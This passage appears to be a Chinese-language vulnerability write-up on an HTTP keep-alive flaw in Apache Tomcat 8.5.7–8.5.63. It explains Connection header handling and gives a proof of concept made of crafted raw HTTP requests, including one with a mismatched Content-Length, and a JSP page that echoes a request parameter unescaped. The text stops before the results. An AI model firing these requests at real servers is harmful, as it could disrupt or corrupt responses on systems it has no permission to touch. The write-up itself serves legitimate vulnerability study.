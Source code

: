 &emsp;&emsp;在HTTP协议中，为了降低TCP握手带来的开销，通过keep-alive，客户端与服务端的HTTP会话可以保持在一个TCP连接中，这个机制也被称为HTTP长连接。

&emsp;&emsp;HTTP请求透中的`Connection`头部可声明客户端期望的HTTP连接类型（close/keep-alive），而协议这块，RFC给出了各种规范，关于该头部则规定服务器应当在客户端未设置该头部时，对于HTTP/1.1将其看作  keep-alive，而HTTP/1.0则为close ，而 tomcat 遵循了这一规范，对于 这点我们也是需要注意到的。

&emsp;&emsp;这里在开头先把POC给出来，后面我们先从整体的逻辑开始讲起，谈谈tomcat在连接与缓存数据上是如何处理HTTP请求的，理解了这点我们就基本明白漏洞底层诱因，接着我们再来说说漏洞细节。

## 漏洞复现与POC

&emsp;&emsp;tomcat8下存在漏洞的版本为 8.5.7~8.5.63 ，我们选择 apache-tomcat-8.5.63 进行 漏洞复现，并注意将tomcat设置为英文。

&emsp;&emsp;发送HTTP请求1

```
GET / HTTP/1.0
Host: localhost

111111111111111111111
111111111111111111111
111111111111111111111
111111111111111111111
111111111111111111111
111111111111111111111
111111111111111111111
111111111111111111111
111111111111111111111
111111111111111111111
111111111111111111111
```

&emsp;&emsp;漏洞的触发需要被访问的页面解析请求Body，藉此攻击者才能去触发超时机制，因此，我们在服务器ROOT下放置如下jsp脚本

```jsp
<% out.write(request.getParameter("p")); %>
```

&emsp;&emsp;由于如果HTTP响应非200等情况，会被退出keep-alive循环处理，因此我们构造如下请求，一方面保证第一个响应页面为status code 为200，另外则让Content-Length大于实际发送的BODY

```http
POST /test3.jsp?p=1 HTTP/1.0
Host: 192.168.150.131
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 2

1
```

漏洞复现结果如图：
